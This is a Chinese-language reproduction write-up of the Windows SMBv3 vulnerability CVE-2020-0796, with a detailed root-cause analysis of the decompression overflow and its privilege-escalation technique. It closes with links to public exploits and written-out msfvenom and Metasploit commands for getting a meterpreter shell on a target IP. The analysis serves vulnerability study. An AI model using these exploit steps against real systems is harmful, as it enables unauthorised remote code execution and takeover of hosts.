





# Windows SMB远程代码执行漏洞 CVE-2020-0796

## 漏洞描述

2020年3月10日，微软在其官方SRC发布了CVE-2020-0796的安全公告（ADV200005，MicrosoftGuidance for Disabling SMBv3 Compression）,公告表示在Windows SMBv3版本的客户端和服务端存在远程代码执行漏洞。同时指出该漏洞存在于MicroSoft Server Message Block 3.1.1协议处理特定请求包的功能中，攻击者利用该漏洞可在目标SMB Server或者Client中执行任意代码

## 漏洞影响

<a-checkbox checked>SMB版本 v3.1.1</a-checkbox></br>

<a-checkbox checked>Windows 10 Version 1903 for 32-bit SystemsWindows 10 Version 1903 for x64-based SystemsWindows 10 Version 1903 for ARM64-based SystemsWindows Server, Version 1903 (Server Core installation)Windows 10 Version 1909 for 32-bit SystemsWindows 10 Version 1909 for x64-based SystemsWindows 10 Version 1909 for ARM64-based SystemsWindows Server, Version 1909 (Server Core installation)</a-checkbox></br>

## 漏洞复现

下载对应的存在漏洞的系统版本


安装后执行命令 winver 查看系统版本，并查看是否含有 `KB4551762补丁`


`CVE-2020-0796`漏洞存在于受影响版本的Windows驱动srv2.sys中。`Windows SMB v3.1.1 `版本增加了对压缩数据的支持。图2所示为带压缩数据的SMB数据报文的构成。


ProtocolId：4字节，固定为`0x424D53FC`
`OriginalComressedSegmentSize`：4字节，原始的未压缩数据大小
`CompressionAlgorithm`：2字节，压缩算法
`Flags`：2字节，详见协议文档
`Offset/Length`：根据Flags的取值为Offset或者Length，Offset表示数据包中压缩数据相对于当前结构的偏移


srv2.sys中处理SMBv3压缩数据包的解压函数`Srv2DecompressData`未严格校验数据包中`OriginalCompressedSegmentSize`和`Offset/Length`字段的合法性。而这两个字段影响了`Srv2DecompressData`中内存分配函数`SrvNetAllocateBuffer`的参数。如图4所示的`Srv2DecompressData`函数反编译代码，`SrvNetAllocateBuffer`实际的参数为`OriginalCompressedSegmentSize+Offset`。这两个参数都直接来源于数据包中SMB Compression Transform Header中的字段，而函数并未判断这两个字段是否合法，就直接将其相加后作为内存分配的参数(unsigned int类型）。



这里，`OriginalCompressedSegmentSize+Offset`可能小于实际需要分配的内存大小，从而在后续调用解压函数`SmbCompressionDecompress`过程中存在越界读取或者写入的风险。

目前已公开的针对该漏洞的本地提权利用包含如下的主要过程：
（1）验证程序首先创建到`SMS server`的会话连接（记为session）。
（2）验证程序获取自身token数据结构中`privilege`成员在内核中的地址（记tokenAddr）。
（3）验证程序通过`session`发送畸形压缩数据（记为evilData）给SMB server触发漏洞。其中，evilData包含tokenAddr、权限数据、溢出占位数据。
（4） `SMS server`收到evilData后触发漏洞，并修改tokenAddr地址处的权限数据，从而提升验证程序的权限。
（5）验证程序获取权限后对winlogon进行控制，`来创建system用户shell`。

首先，看一下已公开利用的`evilData`数据包


数据包的内容很简单，其中几个关键字段数据如下：

OriginalSize ：0xffffffff
Offset：0x10
Real compressed data ：13字节的压缩数据，解压后应为`1108字节’A’加8字节的`token地址。
SMB3 raw data ：实际上是由2个8字节的`0x1FF2FFFFBC`（总长0x10)加上0x13字节的压缩数据组成

从上面的漏洞原理分析可知，漏洞成因是`Srv2DecompressData`函数对报文字段缺乏合法性判断造成内存分配不当。在该漏洞数据包中，OriginalSize 是一个畸形值。`OriginalSize+ Offset = 0xffffffff + 0x10 = 0xf `是一个很小的值，其将会传递给`SrvNetAllocateBuffer`进行调用，下面具体分析内存分配情况。`SrvNetAllocateBuffer`的反编译代码



由于传给`SrvNetAllocateBuffer`的参数为0xf，根据SrvNetAllocateBuffer的处理流程可知，该请求内存将从SrvNetBufferLookasides表中分配。这里需要注意的是，变量`SrvDisableNetBufferLookAsideList`跟注册表项相关，系统默认状态下`SrvDisableNetBufferLookAsideList`为0。


`SrvNetBufferLookasides`表通过函数SrvNetCreateBuffer初始化，实际`SrvNetCreateBuffer`循环调用了`SrvNetBufferLookasideAllocate`分配内存，调用`SrvNetBufferLookasideAllocate`的参数分别为[‘0x1100’, ‘0x2100’, ‘0x4100’, ‘0x8100’, ‘0x10100’, ‘0x20100’, ‘0x40100’, ‘0x80100’, ‘0x100100’]。在这里，内存分配参数为0xf，对应的lookaside表为0x1100大小的表项。


`SrvNetBufferLookasideAllocate`函数实际是调用`SrvNetAllocateBufferFromPool`来分配内存


在函数`SrvNetAllocateBufferFromPool`中，对于用户请求的内存分配大小，内部通过`ExAllocatePoolWithTag`函数分配的内存实际要大于请求值（多出部分用于存储部分内存相关数据结构）。以请求分配0x1100大小为例，经过一系列判断后，最后分配的内存大小allocate_size= 0x1100 + E8 + 2*(MmSizeOfMdl + 8)。


内存分配完毕之后，`SrvNetAllocateBufferFromPool`函数还对分配的内存进行了一系列初始化操作，最后返回了一个内存信息结构体指针作为函数的返回值。


这里需要注意如下的数据关系：`SrvNetAllocateBufferFromPool`函数返回值`return_buffer`指向一个内存数据结构，该内存数据结构起始地址同实际分配内存（函数`ExAllocatePoolWithTag`分配的内存）起始地址的的偏移为0x1150；return_buffer+0x18位置指向了实际分配内存起始地址偏移0x50位置处，而最终`return_buffer`会作为函数`SrvNetAllocateBuffer`的返回值



回到漏洞解压函数`Srv2DecompressData`，在进行内存分配之后，`Srv2DecompressData`调用函数`SmbCompressionDecompress`开始解压被压缩的数据


实际上，该函数调用了Windows库函数`RtlDecompressBufferEx2`来实现解压，根据RtlDecompressBufferEx2的函数原型来对应分析`SmbCompressionDecompress`函数的各个参数。

`SmbCompressionDecompress(CompressAlgo`，//压缩算法
`Compressed_buf`，//指向数据包中的压缩数据
`Compressed_size`，//数据包中压缩数据大小，计算得到
`UnCompressedBuf`,//解压后的数据存储地址，*(alloc_buffer+0x18)+0x10
`UnCompressedSize`,//压缩数据原始大小,源于数据包`OriginalCompressedSegmentSize`
`FinalUnCompressedSize`//最终解压后数据大小

从反编译代码可以看出，函数`SmbCompressionDecompress`中保存解压后数据的地址为*(alloc_buffer+0x18)+0x10的位置，根据内存分配过程分析，alloc_buffer + 0x18指向了实际内存分配起始位置偏移0x50处，所以拷贝目的地址为实际内存分配起始地址偏移0x60位置处。

在解压过程中，压缩数据解压后将存储到这个地址指向的内存中。根据evilData数据的构造过程，解压后的数据为占坑数据和tokenAddr。拷贝到该处地址后，tokenAddr将覆盖原内存数据结构中alloc_buffer+0x18处的数据。也就是解压缩函数`SmbCompressionDecompress`返回后，alloc_buffer+0x18将指向验证程序的tokenAddr内核地址


继续看`Srv2DecompressData`的后续处理流程，解压成功后，函数判断offset的结果不为0。不为0则进行内存移动，内存拷贝的参数如下：

`memmove(*(alloc_buffer+0x18)，SMB_payload，offset)`

此时alloc_buffer+0x18已经指向验证程序的tokenAddr内核地址，而SMB_payload此时指向evilData中的权限数据，offset则为0x10。因此，这个内存移动完成后，权限数据将写入tokenAddr处。这意味着，SMS Server成功修改了验证程序的权限，从而实现了验证程序的提权！

还有一个细节需要注意，在解压时，`Srv2DecompressData`函数会判断实际的解压后数据大小`FinalUnCompressedSize`是否和数据包中原始数据大小`OriginalCompressedSegmentSize`一致



按理来说实际解压后的数据大小为0x1100，不等于数据包中的原始压缩数据大小0xffffffff，这里应该进入到后面内存释放的流程。然而，实际上在函数`SmbCompressionDecompress`中，调用`RtlDecompressBufferEx2`成功后会直接将`OriginalCompressedSegmentSize`赋值给`FinalUnCompressedSize`。这也是该漏洞关于任意地址写入成功的关键之一。


## 漏洞POC

<a-alert type="success" message="CVE-2020-0796 目标探测(奇安信) http://dl.qianxin.com/skylar6/CVE-2020-0796-Scanner.zip" description="" showIcon>
</a-alert>
<br/>
使用奇安信的漏洞扫描来探测


<br/>


<a-alert type="success" message="CVE-2020-0796 本地提权EXP https://github.com/danigargu/CVE-2020-0796" description="" showIcon>
</a-alert>
<br/>

运行应用程序后弹出cmd窗口为 system权限


或者使用 MSF的内置EXP windows/local/cve_2020_0796_smbghost 来本地提权 

<a-alert type="success" message="https://github.com/chompie1337/SMBGhost_RCE_PoC" description="" showIcon>
</a-alert>
<br/>

`msfvenom生成reversed shellcode`

`msfvenom -p windows/x64/meterpreter/bind_tcp lport=2333 -f py -o exp.py`

将生成exp.py中的shellcode替换exploit.py中的shellcode




`buf 要替换为 USER_PAYLOAD`，使用 MSF, `注意有蓝屏概率`

```shell
msf5 > use exploit/multi/handler 
[*] Using configured payload generic/shell_reverse_tcp
msf5 exploit(multi/handler) > set payload windows/x64/meterpreter/bind_tcp
payload => windows/x64/meterpreter/bind_tcp
msf5 exploit(multi/handler) > set lport 2333
lport => 2333
msf5 exploit(multi/handler) > set rhost 192.168.1.110
rhost => 192.168.1.110
msf5 exploit(multi/handler) > exploit
执行脚本即可
python3 exploit.py  -ip 192.168.1.110
```

